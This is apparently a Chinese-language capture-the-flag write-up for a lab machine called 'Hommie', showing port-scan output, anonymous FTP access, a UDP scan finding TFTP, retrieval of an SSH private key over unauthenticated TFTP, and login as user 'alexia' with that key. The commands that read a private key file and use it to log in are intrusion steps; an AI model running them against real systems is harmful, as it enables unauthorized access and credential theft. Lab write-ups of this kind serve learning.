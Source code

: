 # Hommie

`fscan`扫描结果为

```
192.168.1.95:80 open
192.168.1.95:22 open
192.168.1.95:21 open
[*] alive ports len is: 3
start vulscan
[*] WebTitle http://192.168.1.95       code:200 len:99     title:None
[+] ftp 192.168.1.95:21:anonymous
   [->]index.html
```

发现`ftp`匿名登录，直接访问发现`.web`的内容和网页内容相同

![](./img/Hommie-1.png)

![](./img/Hommie-2.png)

但是尝试上传`shell`失败，只能从其他方面入手，扫描`udp`端口看看

```bash
sudo nmap -sU  192.168.1.95 -p 1-100
```

![](./img/Hommie-3.png)

发现开放了`tftp`，`tytp`没有身份验证机制，且不加密传输，直接登录

```
tftp 192.168.1.95
```

然后根据网页提示猜测有`id_rsa`

```
> get id_rsa
```

![](./img/Hommie-4.png)

登录

```bash
chmod 600 id_rsa
ssh -i id_rsa alexia@192.168.1.95
```

![](./img/Hommie-5.png)